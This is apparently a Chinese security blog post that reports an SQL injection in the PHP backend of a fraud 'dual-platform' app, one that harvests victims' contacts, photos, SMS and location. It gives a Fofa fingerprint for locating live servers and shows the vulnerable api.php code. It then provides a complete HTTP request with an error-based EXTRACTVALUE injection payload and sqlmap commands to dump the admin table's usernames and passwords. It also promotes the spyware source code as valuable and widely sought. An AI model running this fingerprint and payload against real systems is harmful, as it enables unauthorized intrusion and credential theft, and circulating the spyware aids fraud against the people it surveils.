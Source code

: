 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg4MTkwMTI5Mw==&mid=2247490169&idx=1&sn=1c03eca279db12aecea40a2a46eafd9a

#  某新版诈骗双端APP通讯录存在前台SQL注入漏洞  
原创 Mstir  星悦安全   2025-07-12 06:19  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**2025 获取双端txl通讯录、相册、短信、定位、已安装APP信息，代码无加密，搭建简单，安卓端是原生纯源码，iOS端是uniapp纯源码，也是有价值的，很多人都在找能用的.**  
  
**Fofa指纹 : "由Thinkphp5提供高性能框架开发而生！"**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREk6pMgmCibhxuVWsibfnrDdybRGkCcWszWmGHMgOOTBAf2f8S5viaKibPBA/640?wx_fmt=other&from=appmsg "")  
  
看见这后台就懂了，某些ZP的用的  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREd8El63icYY7Xx7nK3n3xGv87YTsEaia3xYJSqOUJt3Zd3trLLpvnx9hw/640?wx_fmt=other&from=appmsg "")  
  
框架:ThinkPHP 5.0.24 Debug:true  
##   
## 0x01 漏洞分析&复现  
  
**位于 /api.php 中，通过GET传入ID参数，直接进入SQL查询字句，且未加过滤，导致漏洞产生，其中需POST传入img参数，实际上传的文件后缀被写死.**  
  
****  

```
<?php
header('Access-Control-Allow-Origin:*');
header('Content-Type:text/plain;charset=utf-8');
require('conn.php');


    function imgbc($image)
    {
        $imageName = &#34;25220_&#34;.date(&#34;His&#34;,time()).&#34;_&#34;.rand(1111,9999).'.png';
        if (strstr($image,&#34;,&#34;)){
          $image = explode(',',$image);
        $image = $image[1];
        }
        $path = &#34;./uploads/&#34;.date(&#34;Ymd&#34;,time());
        if (!is_dir($path)){ //判断目录是否存在 不存在就创建
          mkdir($path,0777,true);
        }
        $imageSrc= $path.&#34;/&#34;. $imageName; //图片名字
        $r = file_put_contents($imageSrc, base64_decode($image));//返回的是字节数
        return&#34;/uploads/&#34;.date(&#34;Ymd&#34;,time()).&#34;/&#34;. $imageName;
    }
    

if(isset($_POST['img'])){
    
    $img = imgbc('data:image/jpg;base64,'.$_POST['img']);
    
    $userid = $_GET['id'];
    
    $sqlUser = &#34;select * from app_user where name = '$userid'&#34;;
    $resultUser = mysqli_query($conn,$sqlUser);
    if ($resultUser->num_rows > 0) {
        $row = $resultUser->fetch_assoc();
        $user_id = $row['id'];
        
        $sql = &#34;INSERT INTO app_xiangce VALUES (null, '&#34;.$user_id.&#34;',null,'&#34;.$img.&#34;', '&#34;.time().&#34;')&#34;;
     
        if ($conn->query($sql) == TRUE) {
            echo&#34;成功&#34;;
        } else {
            echo&#34;Error: &#34; . $sql . &#34;<br>&#34; . $conn->error;
        }
    }else{
         echo&#34;Error: &#34; . $sql . &#34;<br>&#34; . $conn->error;
    }

}

```

  
  
**Payload（爆库）:**  
  

```
POST /api.php?id='+AND+EXTRACTVALUE(6165,CONCAT(0x5c,(SELECT+(USER()))))--+KrBJ HTTP/1.1
Host: 192.168.140.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 5

img=1

```

  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREEiaXtZNLcCaNFlZRrTU2cgf1VZ7GLeITwWGfgAbrQmmeiadQibLfjDaGQ/640?wx_fmt=other&from=appmsg "")  
  
**Python sqlmap.py -r a.txt --level=3 --dbms=mysql**  
  
****  
****  
****  
**-T app_admin -C name,password --dump   爆出管理员表的账密**  
## 0x02 关注公众号  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注公众号，获取最新安全文章!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
